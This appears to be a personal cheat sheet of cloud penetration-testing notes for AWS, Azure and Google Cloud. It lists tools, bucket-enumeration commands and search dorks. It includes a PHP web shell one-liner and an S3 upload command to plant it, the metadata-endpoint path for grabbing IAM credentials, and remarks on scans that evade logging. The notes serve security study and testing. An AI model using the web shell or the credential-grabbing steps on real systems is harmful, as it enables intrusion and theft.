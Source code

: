 # Cloud Pentesting    
Main Cloud platforms: Amazon Web Services, Microsoft Azure, Google Cloud. Most cloud providers have miminal logging by default.        
[Grey Hat Warfare](https://buckets.grayhatwarfare.com/): search public buckets       
Use masscan to scan a large IP range:      

    $ masscan 10.10.0.1/24 -p 22,25,80,443,3389            
    --rate 50000   #fastest scan    
    #Most devices won't log half open SYN scans (nmap -sS and masscan) or TLS scan to web ports              
## AWS     
AWS GuardDuty for security. No logging or versioning on by default.         
[AWS IP ranges](https://ip-ranges.amazon.aws/ip-ranges.json)         
[Pacu](https://github.com/RhinoSecurityLabs/pacu): AWS exploit framework      
[bucketfinder](https://github.com/FishermansEnemy/bucket_finder/tree/master): look for interesting files on Amazon S3 buckets.       
Access     
     
     CLI: using AWS access key and AWS secret key. Set as enviromental variables.     
     Web: management web portal access.      
Pen Testing on a web server:     

     check for web requests to s3 buckets at https://s3.amazonaws.com/{bucketname} or https://s3-{region}.amazonaws.com/{Org}         
     Config issues:   

Commands         

    https://aws.amazon.com/cli/   #AWS CLI    
   
    aws configure     #set up, can put temp in all values   
    aws s3 ls s3://bucket.site.com    #list contents of a bucket    
    aws sl ls s3://bucket --region      
    aws --endpoint=http://site.com s3 ls s3://site.com   #list objects and common prefixes    
    aws s3api get-bucket-acl --bucket bucket       
    aws s3 cp file.txt s3://bucket --profile user_profile    
  
might be able to upload a php web shell      

    echo '<?php system($_GET["cmd"]); ?>' > shell.php   #make web shell file   
    aws --endpoint=http://s3.site.com s3 cp shell.php s3://site.com     #upload web shell     

Search for files with keywords in buckets using [bucket_finder](https://github.com/FishermansEnemy/bucket_finder):     

    bucket_finder.rb search_term --download         
Instance Metadata     

    "Metadata" endpoint: 169.254.169.254. Vulns might allow remote attacks to access it.         
    http://169.254.169.254/latest/meta-data/iam/security-credentials/     #IAM creds     
AWS Lambda: can have vulns and be used to steal AWS keys via command injection.            
Denonia cryptominer malware targeted Lambda.     
### Resources      
https://www.hackthebox.com/blog/aws-pentesting-guide    
https://cloud.hacktricks.xyz/pentesting-cloud/aws-security     
    
## Azure    
Built in security with Azure Sentinel. Azure acts as a middleman between the AD network and user sign on - makes lots of traditional AD acts ineffective.         
Azure Blob: https://{account}.blob.core.windows.net/{container}     


### Enumerate Azure Blobs   
[Azure-CLI](https://learn.microsoft.com/en-us/cli/azure/install-azure-cli)     
[AZ-Blob-Attacker](https://github.com/VitthalS/Az-Blob-Attacker)    
[Basic Blob Finder](https://github.com/joswr1ght/basicblobfinder): search for Azure blobs       
[Microburst](https://github.com/NetSPI/MicroBurst): Scripts for pentesting Azure    

    basicblobfinder.py wordlist   #enum buckets       
Google Hacks:     

    site:*.blob.core.windows.net
    site:"blob.core.windows.net" and intext:"CONFIDENTIAL"
### Resources:    
https://www.inversecos.com/2022/01/how-to-detect-and-compromise-azure.html      

## Google Cloud   
GCP Cloud Armor for security. [List of Buckets by IPS](https://www.gstatic.com/ipranges/cloud.json)           
GCP: https://www.googleapis.com/storage/v1/b/{bucketname}      
[GCPBucketBrute](https://github.com/RhinoSecurityLabs/GCPBucketBrute): search for Google Storage Buckets and check accesses.     
Bucket permissions: listable (enum and read files), writeable (upload)       

    gcpbucketbrute.py -u -k search_org      
    gsutil ls gs://bucket       #list contents of a public bucket     
